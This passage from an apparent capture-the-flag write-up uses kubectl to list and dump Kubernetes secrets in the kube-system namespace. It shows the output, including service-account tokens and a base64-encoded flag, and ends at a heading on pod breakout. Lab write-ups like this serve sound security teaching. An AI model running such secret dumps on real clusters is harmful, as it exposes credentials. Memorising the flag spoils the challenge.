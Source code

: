 In order to find flag 3, we must query the namespace `kube-system` for secrets

`kubectl get secrets -o yaml -n kube-system`

This will display all the secrets in the `kube-system` namespace. Here we can see a secret called flag3.

```
NAME                             TYPE                                  DATA   AGE
ttl-controller-token-kl49c       kubernetes.io/service-account-token   3      118d
[..snip..]
default-token-v7w56              kubernetes.io/service-account-token   3      118d
flag3                            Opaque                                1      118d
k3s-serving                      kubernetes.io/tls                     2      118d

```

We can query the contents of this secret using the following command:

`kubectl get secrets flag3 -n kube-system -o yaml`

This will give us the contents of the flag3 secret with flag 3.

```
apiVersion: v1
data:
  flag3.txt: ZmxhZ3tJdHNfbjB0X215X2ZhdWx0IX0=
kind: Secret
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"flag3","namespace":"kube-system"},"stringData":{"flag3.txt":"flag{*****************}"},"type":"Opaque"}
  creationTimestamp: "2021-05-31T22:01:30Z"
  name: flag3
  namespace: kube-system
  resourceVersion: "591"
  uid: 599c6a8b-2a93-4253-a02c-6c0a7eccdc3f
type: Opaque

```

![flag3](/img/palsforlife/flag3.png)

---

### Privilege Escalation via pod breakout
